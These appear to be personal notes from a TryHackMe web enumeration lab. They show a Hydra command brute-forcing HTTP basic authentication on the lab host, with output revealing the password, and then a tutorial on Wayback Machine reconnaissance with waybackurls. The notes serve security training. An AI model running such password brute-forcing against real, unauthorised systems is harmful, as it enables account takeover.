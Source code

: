 ![[Pasted image 20240803194952.png]]

## Hydra Solution:

```shell-session
root@ip-10-10-242-171:~# hydra -l admin -P 500-worst-passwords.txt http-get://enum.thm/labs/basic_auth/
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-08-04 04:17:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking http-get://enum.thm:80//labs/basic_auth/
[80][http-get] host: enum.thm   login: admin   password: yellow
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-08-04 04:17:16
```
# OSINT

### Wayback URLs and Google Dorks  

Digging into a web application’s past can be as revealing as examining its present:

**Wayback URLs**

Think of the Internet Archive's Wayback Machine ([https://archive.org/web/](https://archive.org/web/)) as a time machine. It lets you travel back and explore older versions of websites, uncovering files and directories that are no longer visible but might still linger on the server. These relics can sometimes provide a backdoor right into the present system.
![[Pasted image 20240803195102.png]]
For example, using TryHackMe as a target, we can see all of the website's past versions from 2018 to the present.
![[Pasted image 20240803195109.png]]
To dump all of the links that are saved in Wayback Machine, we can use the tool called waybackurls. Hosted in [GitHub](https://github.com/tomnomnom/waybackurls), we can easily install this on our machine by using the below commands:

**Note:** Installing this tool is out of scope for this room. It is also recommended to install this tool using your own VM.  

Install waybackurls  

```shell-session
user@tryhackme $ git clone https://github.com/tomnomnom/waybackurls
user@tryhackme $ cd waybackurls
user@tryhackme $ sudo apt install golang-go -y # This command is optional
user@tryhackme $ go build
user@tryhackme $ ls -lah
total 6.6M
drwxr-xr-x 4 user user 4.0K Jul  1 18:20 .
drwxr-xr-x 9 user user 4.0K Jul  1 18:20 ..
drwxr-xr-x 8 user user 4.0K Jul  1 18:20 .git
-rw-r--r-- 1 user user   36 Jul  1 18:20 .gitignore
-rw-r--r-- 1 user user  454 Jul  1 18:20 README.mkd
-rw-r--r-- 1 user user   49 Jul  1 18:20 go.mod
-rw-r--r-- 1 user user 5.4K Jul  1 18:20 main.go
drwxr-xr-x 2 user user 4.0K Jul  1 18:20 script
-rwxr-xr-x 1 user user 6.5M Jul  1 18:20 waybackurls
user@tryhackme $ ./waybackurls tryhackme.com
[-- snip --]
https://tryhackme.com/.well-known/ai-plugin.json
https://tryhackme.com/.well-known/assetlinks.json
https://tryhackme.com/.well-known/dnt-policy.txt
```